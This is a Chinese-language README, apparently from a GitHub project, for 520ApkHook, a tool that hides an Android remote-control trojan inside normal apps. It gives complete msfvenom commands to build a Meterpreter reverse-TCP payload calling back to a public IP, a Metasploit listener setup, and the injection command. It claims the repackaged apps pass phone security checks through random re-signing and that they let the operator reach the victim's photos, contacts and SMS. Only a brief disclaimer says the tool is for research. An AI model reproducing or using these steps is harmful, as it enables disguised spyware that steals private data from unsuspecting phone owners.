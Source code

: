 # 520_APK_HOOK

## 介绍

* 将编写的安卓远控程序，注入到正常的App中，运行app时安卓远控程序也会上线。

* 修复上一版本的bug，使用java重写，同时还重写了520ApkBox程序，专门用来运行运行APP和远控App。

* 520ApkBox是一个java编写的App，主要作用是一个安卓虚拟机，任何App可以不用任何修改就可以正常运行，可以绕过现在各种App的安全检测。同时此App还是一个加载器，通过DexClassesLoder加载远控的Dex文件并启动上线。

* 520ApkHook是Java编写的注入工具，将被注入的App和远控App注入到一个App中。

* 项目地址:  [https://github.com/ba0gu0/520apkhook](https://github.com/ba0gu0/520apkhook)

* 作者: BaoGuo

## 版本升级

* 2024-05-21
  * 修复了520apkhook的相关问题（app中文名报错、apk签名被标记。）

  * 新增了随机签名的功能，先获取原始app的相关签名信息，根据这些信息重新生成新的签名，签名密码每次都不一样，避免被标记。(有些app会无法识别签名信息，可以自己用jadx获取到app的签名信息，然后生成证书，使用[ApkSigner](https://github.com/jixiaoyong/ApkSigner)进行重新签名。华为目前还有问题，改签名也会被识别恶意app)

  * 更换了两个安卓虚拟机，[NewBlackbox](https://github.com/ALEX5402/NewBlackbox)、[SpaceCore](https://github.com/FSpaceCore/SpaceCore)。安卓版本支持到`5-14`。

  * 新增了`-b, --boxName`参数，用来指定`SpaceCore`还是`NewBlackBox`，默认SpaceCore，如果出现卡顿或者闪退，可以尝试切换到NewBlackBox。直接指定参数 `-b NewBlackBox` 即可。

* 2023-06-05
  * 上版本忘记添加32位app支持，此次升级加入32位app支持。更换了虚拟机项目依赖，稳定性更好一下。

  * 支持安卓5-12版本，不支持最新的安卓13。

  * 问题1、目前有问题的app，微信、ES文件浏览器。

  * 问题2、被注入的app读取到的文件、图片、通讯录、短信是虚拟机的内容，但是注入的payload获取到的是实体机的内容。


## 优点

* 相比于普通的安卓远控，此版本app在进行远控时，被注入的app可以正常运行。

* 注入后的app在安装时，手机管家不会有任何安全提示，普通的远控程序，安装时手机管家会有安全警示。

* 理论上来说，只要远控软件使用的是纯Java或者Kotlin编写，就可以使用，不一定必须是msf生成的apk。


## 使用

1. 下载Releases中打包好的jar包  

 * [a520ApkHook-1.2-jar-with-dependencies.jar](https://github.com/ba0gu0/520apkhook/releases/download/v1.2/a520ApkHook-1.1-jar-with-dependencies.jar)

2. msfmsfvenom

```shell

msfvenom -p android/meterpreter/reverse_tcp lhost=114.114.114.114 lport=3306 -o ~/Downloads/msf.apk

```
3. msfconsole

```shell
# 启动 msfconsole

use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 3306
set exitonsession false
exploit -j
```
4. 520ApkHook

> msf由于加载机制问题，需要`-o`参数，才可以获取照片、通讯录、短信等。
>
> 如果在运行app时，提示版本太老、一堆权限提示，可以把`-o`去掉，但是权限会出问题。

```shell

java -jar a520ApkHook-1.0-jar-with-dependencies.jar -o ~/Downloads/想进行注入的App.apk ~/Downloads/msf.apk

```

5. BaoGuo仍给你一个Apk，请安装它!

### 搭配其他远控使用

* 推荐搭配`AhMyth`，配在一起贼爽。

> 使用AhMyth时，不需要添加`-o`参数，不然app会提示版本太老，一堆权限提示太假。
>
> [https://github.com/Morsmalleo/AhMyth](https://github.com/Morsmalleo/AhMyth)


## BUG

* 使用SpaceCore作为基础容器，能运行90%的app，但可能会出现app不流畅。
* 使用NewBlackBox作为基础容器，目前测试不能在模拟器中运行，微信无法启动。
* 其他未测试...

## 项目依赖

* 本项目参考以下项目
* [https://github.com/ALEX5402/NewBlackbox](https://github.com/ALEX5402/NewBlackbox)
* [https://github.com/FSpaceCore/SpaceCore](https://github.com/FSpaceCore/SpaceCore)


## 重点说明

* 本项目仅用于安全研究, 禁止利用脚本进行攻击, 使用本脚本产生的一切问题和本人无关.

* 由于此软件是基于安卓虚拟化来实现的，虚拟化软件对于不同版本的系统会出现BUG，可以自行修改520ApkBox项目源码 (欢迎大佬提交pull) .



## Start 曲线

[![Start 曲线](https://starchart.cc/ba0gu0/520apkhook.svg)](https://starchart.cc/ba0gu0/520apkhook)
